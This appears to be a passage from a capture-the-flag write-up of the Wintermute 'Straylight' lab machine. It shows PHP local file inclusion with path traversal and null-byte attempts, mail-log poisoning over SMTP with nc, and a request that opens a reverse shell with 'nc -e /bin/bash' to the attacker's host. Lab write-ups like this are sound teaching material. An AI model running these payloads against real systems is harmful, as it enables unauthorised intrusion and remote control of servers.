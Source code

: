Our first thought is to bypass the `.log` in the end by including something like `../../../../../etc/passwd%00`. Notice the **null byte** in the end to terminate the string so `.log` doesn't affect us. But unfortunately that doesn't work.

### So what can we include?
**.log files of cource!**

Let's try including `../../../../../../var/log/mail` The server will automatically append `.log` to it and voila:

![](/assets/images/wintermute/8.png)

We have the mail log file.
In **php** the `include()` function also executes the code in its parameter. Fortunately for us we can inject malicious php code inside the log file.

**SMTP** is open, so we can send mails to the server. This way we can include malicious content in the mails. The mails probably won't be valid but we don't care, as long as they are recorded in th **log file**.

## Exploitation - Straylight

Let's try and talk to the smtp server using `nc 192.168.56.102 25`

![](/assets/images/wintermute/9.png)

We set the recipient id to a simple **php** command which lets us execute commands using a GET request. Te server may complain about the id, but it will write it in the logs and that is all we care about.

Now start up **Burp Suite** and capture the request. I tried sending a bash reverse shell but it didn't work. But it seems Straylight has a version of `nc` with the `-e` enabled (which lets us execute commands).
So our payload in burp will be `GET /turing-bolo/bolo.php?bolo=../../../../../../../../../var/log/mail&command=nc -e /bin/bash 192.168.56.1 1337` (url-encode the `command` payload)
